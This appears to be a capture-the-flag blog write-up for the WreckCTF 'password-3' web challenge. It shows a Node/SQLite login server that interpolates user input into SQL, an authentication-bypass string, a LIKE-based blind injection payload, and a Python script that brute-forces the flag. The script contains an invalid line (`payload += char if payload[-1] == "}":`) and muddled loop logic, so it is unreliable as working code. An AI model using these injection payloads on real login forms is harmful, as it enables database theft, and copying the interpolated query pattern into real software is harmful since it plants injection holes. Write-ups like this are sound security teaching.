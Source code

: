 ```yaml
---
layout: post
current: post
cover:  assets/wreck/ZeroDayTea/cover.webp
navigation: True
title: "password-3"
date: 2022-11-03 10:00:00
tags: [WRECKCTF, web]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


A quick but interesting proof-of-concept demonstrating that security by obscurity does not and will never work. Even if you don't show reflected feedback from SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Let's take a look at the server-side code:
```js
const crypto = require('crypto')
const database = require('better-sqlite3')
const express = require('express')
const app = express()

FLAG = process.env.FLAG ?? 'flag{testflag}'
const db = new database(':memory:')
const id = () => crypto.randomBytes(16).toString('hex')

app.use(express.static('public'))
app.use(express.json())

app.post('/password', (req, res) => {
    const password = (req.body.password ?? '').toString()
    const result = db.prepare(
        `SELECT password FROM passwords WHERE password='${password}';`
    ).get()

    if (result) res.json({
        success: true,
        message: (
            'Congrats on logging in! However, that\'s not enough... can you ' +
            'find the flag in the database this time?'
        ),
    })
    else res.json({ success: false })
})

db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)

  

app.listen(3000)
```

And here's what the JavaScript looks like on the frontend:
```js
form.addEventListener('submit', async (event) => {
	event.preventDefault();
	const input = document.querySelector('input[type="text"]');
	const response = await fetch('/password', {
	  method: 'POST',
	  headers: { 'content-type': 'application/json' },
	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()
	if (result.success) {
	  const content = document.querySelector('.content')
	  content.textContent = result.message;
	} else {
	  input.removeAttribute('style');
	  input.offsetWidth;
	  input.style.animation = 'shake 0.25s';
	}
  });
```

We can see that after clicking the `Login` button, our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string 

```SQL
SELECT password FROM passwords WHERE password='${password}';
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
 `Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code, we see:
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character, with the server returning a valid logged-in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected `password` variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Here's a quick bruteforce script to run this exploit iteratively on the `/password` endpoint:

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
    for char in possibilities: 
        print("Trying: " + flag + payload + char) 
        password = f"' OR password LIKE '{flag + payload + char}%" 
        print(password) 
        r = requests.post(url, json={"password": password}) 
        print(r.text) 
        if r.text.find("Congrats") != -1: 
            payload += char if payload[-1] == "}": 
            exit() 
        break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag, but it nonetheless iterates through all the previous characters and gets the necessary part of the flag.

## Challenge Analysis
This was a quick and simple challenge, but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to expose sensitive information from the backend.

The challenge provided us with the source code for the server, making it almost immediately apparent what had to be done. However, even without source code, this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to read data from other tables on the database if not secured properly, leading to much larger-scale data leaks than a single flag in a single table.